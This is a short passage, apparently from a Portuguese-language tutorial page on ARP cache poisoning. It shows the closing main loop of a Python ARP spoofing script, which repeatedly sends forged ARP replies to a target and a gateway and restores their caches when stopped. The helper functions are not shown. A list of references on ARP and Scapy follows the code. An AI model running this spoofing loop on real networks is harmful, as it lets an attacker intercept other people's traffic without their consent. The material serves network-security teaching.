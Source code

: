 ```python
    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()

    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```

## Referências

1. [RFC 826](https://web.archive.org/web/20041204044506/http://www.ietf.org/rfc/rfc826.txt)
2. [ARP Cache Poisoning using Scapy](https://medium.com/datadriveninvestor/arp-cache-poisoning-using-scapy-d6711ecbe112)
3. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/usage.html)

